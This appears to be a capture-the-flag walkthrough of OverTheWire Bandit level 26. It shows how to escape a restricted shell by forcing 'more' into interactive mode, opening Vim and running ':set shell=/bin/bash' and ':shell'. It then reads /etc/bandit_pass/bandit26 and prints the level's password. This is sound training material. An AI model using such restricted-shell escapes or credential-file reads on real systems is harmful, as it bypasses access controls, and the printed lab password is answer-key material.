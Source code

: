 ## Overview

In this level, we are tasked with breaking out of a restricted shell for user `bandit26`. The default shell for user `bandit26` is not `/bin/bash`, but `/usr/bin/showtext`, which runs a script. Our goal is to find a way to escape this shell, spawn a new shell, and retrieve the password for Bandit Level 26.

---

## A little bit of Theory

In this level, we leverage the concept of interactive shells and **Vim**. The `more` command is used to view files, and we can exploit its interactive mode to open **Vim**. In **Vim**, we can use the `:shell` command to spawn the default shell for the user. Additionally, we can change the shell in Vim to `/bin/bash` using `:set shell=/bin/bash` and then run `:shell` to get an interactive shell.

---

## Solution

### Step 1: Check the default shell for `bandit26`

We first need to check which shell is being used for `bandit26`. We can do this by examining the `/etc/passwd` file:

```bash
bandit25@bandit:~$ cat /etc/passwd | grep bandit26
```

### Output:

```
bandit26:x:11026:11026:bandit level 26:/home/bandit26:/usr/bin/showtext
```

From this output, we can see that the default shell for `bandit26` is `/usr/bin/showtext`.

### Step 2: Inspect the `showtext` script

Next, we examine the contents of the `showtext` script, which is responsible for launching the shell. We check its permissions and content:

```bash
bandit25@bandit:~$ ls -la /usr/bin/showtext
```

Output:

```
-rwxr-xr-x 1 root root 53 May 7 2020 /usr/bin/showtext
```

Now, let's look at the script itself:

```bash
bandit25@bandit:~$ cat /usr/bin/showtext
```

Output:

```bash
#!/bin/sh

export TERM=linux

more ~/text.txt
exit 0
```

This script runs `more` to display the `text.txt` file and then exits.

### Step 3: Trigger interactive mode in `more`

Since the script uses `more`, we can take advantage of its interactive mode. By making the terminal window smaller, we can force `more` into interactive mode, allowing us to use `v` to open the file in **Vim**.

### Step 4: Open Vim and break out

Once in Vim, we can open the password file for `bandit26` and retrieve the password. To do this, run the following command inside Vim:

```bash
:e /etc/bandit_pass/bandit26
```

If we want a shell, we can change the default shell to `/bin/bash` with the following command:

```bash
:set shell=/bin/bash
:shell
```

Now, we have access to a real shell.

### Step 5: Retrieve the password

After breaking out into a bash shell, we can retrieve the password for `bandit26` by running:

```bash
bandit26@bandit:~$ cat /etc/bandit_pass/bandit26
```

### Output:

```
s0773xxkk0MXfdqOfPRVr9L3jJBUOgCZ
```

The password for **Bandit Level 26** is:

`s0773xxkk0MXfdqOfPRVr9L3jJBUOgCZ`

---

## Official Level Link

[Bandit Level 26](https://overthewire.org/wargames/bandit/bandit26.html)

